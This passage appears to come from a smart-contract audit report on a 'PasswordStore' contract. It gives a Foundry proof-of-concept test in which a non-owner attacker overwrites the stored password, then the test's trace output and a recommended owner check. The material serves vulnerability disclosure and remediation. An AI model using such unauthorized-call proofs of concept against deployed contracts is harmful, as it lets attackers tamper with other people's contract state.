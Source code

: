 ```solidity
    function test_poc_non_owner_set_password() public {
        // initiate the transaction from the non-owner attacker address
        vm.prank(attacker);
        string memory newPassword = "attackerPassword";
        // attacker attempts to set the password
        passwordStore.setPassword(newPassword);
        console.log("The attacker successfully set the password:" newPassword);
    }
```

Run the test:

```bash
forge test --mt test_poc_non_owner_set_password -vvvv
```

Which yields the following output:

```bash
unning 1 test for test/PasswordStore.t.sol:PasswordStoreTest
[PASS] test_poc_non_owner_set_password() (gas: 20776)
Logs:
  The attacker successfully set the password: attackerPassword

Traces:
  [20776] PasswordStoreTest::test_poc_non_owner_set_password()
    ├─ [0] VM::prank(attacker: [0x9dF0C6b0066D5317aA5b38B36850548DaCCa6B4e])
    │   └─ ← ()
    ├─ [6686] PasswordStore::setPassword(attackerPassword)
    │   ├─ emit SetNetPassword()
    │   └─ ← ()
    ├─ [0] console::log(The attacker successfully set the password: attackerPassword) [staticcall]
    │   └─ ← ()
    └─ ← ()

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.36ms
```

## Recommended Mitigation

Include access control to restrict who can call the `setPassword` function to be only the owner: `s_owner`. This can be achieved in two ways:

1. Using an `if` statement, as used in the `getPassword` function, and revert with the `PasswordStore__NotOwer()` custom error if the address calling the function is not the owner:

```diff
    function setPassword(string memory newPassword) external {
        // @audit check that the function caller is the owner of the contract
+        if (msg.sender != s_owner) {
+            revert PasswordStore__NotOwner();
+        }
        s_password = newPassword;
        emit SetNetPassword();
    }
```
